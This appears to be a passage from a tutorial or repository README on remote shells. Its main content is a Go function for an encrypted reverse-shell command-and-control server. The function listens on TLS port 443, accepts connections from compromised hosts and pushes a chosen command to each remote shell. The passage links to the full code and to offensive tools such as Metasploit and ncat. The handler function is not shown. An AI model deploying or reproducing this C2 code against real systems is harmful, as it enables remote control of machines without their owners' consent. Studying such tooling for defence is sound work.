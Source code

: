 CC server:

```Go
// example of CC server that sends a user defined command to remote shell once a connection is initialized by
// the remote host
func encryptedReverseShellCC(cmd string) {

 // load server certificate/public key and private key
 cer, err := tls.LoadX509KeyPair("server.crt", "server.key")
 if err != nil {
  log.Printf("An error occured while loading TLS keys: %v\n", err)
  os.Exit(1)
 }
 config := &tls.Config{Certificates: []tls.Certificate{cer}}

 // start a tcp/tls listener on the specified port
 listener, err := tls.Listen("tcp", "localhost:443", config)
 if err != nil {
  log.Printf("An error occurred while initializing the listener on 443: %v\n", err)
  os.Exit(2)
 } else {
  log.Println("Listening on tcp port 443...")
 }

 // Create channel for returns from goroutines
 ch := make(chan []byte)

 // infinite loop waiting for connections and handing them to the handler function
 for {
  connection, err := listener.Accept()
  if err != nil {
   log.Printf("An error occurred during an attempted connection: %v\n", err)
  }
  // concurrently handle all incoming connections
  // uses same handling function as reegular reverse shell
  go handleRevConnection(connection, cmd, ch)
 }
}
```

**[FULL CODE](https://github.com/TomTietz/shells)**

## Further resources

- For detailed explanations of _netcat_ command line options use `man nc` or see [here](https://www.unix.com/man-page/Linux/1/netcat/)
- Other useful tools for remote shells (and more): [sbd](https://www.kali.org/tools/sbd/), [ncat](https://nmap.org/ncat/), [Metasploit](https://www.metasploit.com/)